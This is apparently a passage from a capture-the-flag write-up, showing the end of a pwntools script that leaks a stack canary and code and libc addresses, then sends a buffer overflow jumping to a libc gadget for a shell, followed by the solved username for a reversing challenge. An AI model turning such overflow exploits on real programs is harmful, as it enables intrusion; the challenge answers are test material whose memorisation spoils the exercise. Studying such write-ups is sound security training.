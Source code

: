 ```python
out = r.recvline().split("_")
canary = int(out[1], 16)
code_base = int(out[2], 16) - 3136
libc_base = int(out[3], 16) - 133168

log.info(hex(canary))
log.info(hex(code_base))
log.info(hex(libc_base))

r.sendlineafter(":", flat("a" * 136, canary, 'b' * 8, libc_base + 0x45216))

r.interactive()
```

### crack-me-username

After reversing, the input string will be mapped to `6U2SRYZ9A84VQXK>7;F5E?I0GJW=PD3<MT@BLH:NO1C` one byte by one byte and insert to the balance tree. And then, check the pre-order traversal is equals to `E852036?;<B@DLIGJPNU`. Therefore, do the reverse way and we get the username `D9TCEFL20ASHIW1GNORM`.
